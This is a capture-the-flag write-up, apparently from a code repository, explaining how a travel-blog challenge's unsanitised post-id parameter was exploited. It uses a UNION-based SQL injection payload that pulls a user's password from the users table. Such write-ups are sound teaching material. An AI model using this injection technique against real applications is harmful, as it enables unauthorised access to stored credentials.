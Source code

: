 ## Investigation

The problem described a simple travel blog that someone used to blog about the places they've been to. 
They gave us the code for this problem and I've included it here if you wanted to try it yourself. 
Check it out in Local Code.

On opening up the site you're presented with this landing page.

![Landing-Page](Images/TourBlog-Landing.png)

You can click on individual places and see that they open up a new page about them.

![Individual-Page](Images/TourBlog-Individual.png)

As usual I started by looking for the flag in the code and found that it was a user in the database.

![Flag-Code](Images/TourBlog-Flag-Code.png)

The problem then is just getting the flagbearer user from the user table. Note that I can just check the id of the user because the
flagbearer user has id=1.

Going through the routes, you see that they get the id from the request. This id is then plugged directly into a SQL
statement to get that post from the database. 

![GetPost-Code](Images/TourBlog-GetPost.png)

There's no sanitization so this is clearly a SQL injection problem. The only wrinkle is that this is getting an entry from the posts table while I'm trying to get an entry in the users table.

## Solution

Getting information from another table clearly calls for a UNION. I needed to get the password of the flagbearer user. To UNION two
SQL select statements together both statements need to have the same number of columns. Their SQL statement gets everything from 
posts, which has 4 columns. The users table though has 3 columns.

posts Table:

```
CREATE TABLE `posts` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `title` varchar(255) NOT NULL,
  `thumbnail` varchar(255) NOT NULL,
  `content` text NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=6 DEFAULT CHARSET=utf8mb4;
```

users Table:

```
CREATE TABLE `users` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(255) NOT NULL,
  `password` varchar(255) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=utf8mb4;
```

All I needed then was an extra temp column so SQL can union both table together. I ended up setting the id to the following SQL
statment:

```
9' UNION SELECT *,'temp' FROM users WHERE id='1
```

This makes the whole SQL statement the server processes into:

```
SELECT * FROM posts WHERE id='9' UNION SELECT *,'example' FROM users WHERE id='1'
```

This makes the page get the user and they end up trying to use the password as the background image. Looking at the response gets
the flag.

![Flag](Images/TourBlog-FinalFlag.png)

This was an interesting addition on a standard SQL injection. It would've been interesting solving this problem without seeing
exactly where the SQL injection happens. Obviously most real life hackers don't have the full source code so solving it without that
would have given more of an insight into how they figure out forming a SQL injection attack.